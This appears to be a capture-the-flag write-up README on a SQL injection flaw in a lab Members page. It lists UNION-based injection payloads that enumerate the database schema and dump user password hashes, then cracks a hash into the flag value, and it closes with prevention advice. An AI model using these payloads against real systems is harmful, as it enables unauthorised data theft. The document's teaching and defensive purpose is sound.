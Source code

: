 # SQL Injection: Members Page Vulnerability

## Overview

This repo demonstrates a SQL Injection vulnerability found on a Members page, showing how attackers can exploit weak input validation to extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`
- Result: Lists table/column names (e.g., `users`, `user_id`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` → lowercase → `fortytwo`
- SHA-256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5` (the flag)

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Use secure coding practices to protect your applications.